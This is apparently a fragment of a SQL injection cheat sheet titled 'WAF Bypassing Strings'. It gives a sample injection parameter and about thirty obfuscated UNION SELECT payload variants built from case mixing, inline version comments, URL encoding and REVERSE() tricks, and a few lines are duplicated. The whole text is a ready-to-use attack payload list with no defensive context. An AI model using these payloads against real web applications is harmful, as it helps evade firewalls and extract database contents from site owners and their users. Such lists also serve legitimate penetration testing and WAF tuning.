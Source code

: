     ```
    id=-1'UnIoN/**/SeLeCT
    ```

```sql
#WAF Bypassing Strings:
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 %55nion(%53elect 1,2,3)-- -
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 /**//*!12345UNION SELECT*//**/
 
 /**//*!50000UNION SELECT*//**/
 
 /**/UNION/**//*!50000SELECT*//**/
 
 /*!50000UniON SeLeCt*/
 
 union /*!50000%53elect*/
 
 +#uNiOn+#sEleCt
 
 +#1q%0AuNiOn all#qa%0A#%0AsEleCt
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 /*!u%6eion*/ /*!se%6cect*/
 
 +un/**/ion+se/**/lect
 
 uni%0bon+se%0blect
 
 %2f**%2funion%2f**%2fselect
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 REVERSE(noinu)+REVERSE(tceles)
 
 /*--*/union/*--*/select/*--*/
 
 union (/*!/**/ SeleCT */ 1,2,3)
 
 /*!union*/+/*!select*/
 
 union+/*!select*/
 
 /**/union/**/select/**/
 
 /**/uNIon/**/sEleCt/**/
 
 /**//*!union*//**//*!select*//**/
 
 /*!uNIOn*/ /*!SelECt*/
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 +UnIOn%0d%0aSeleCt%0d%0a
```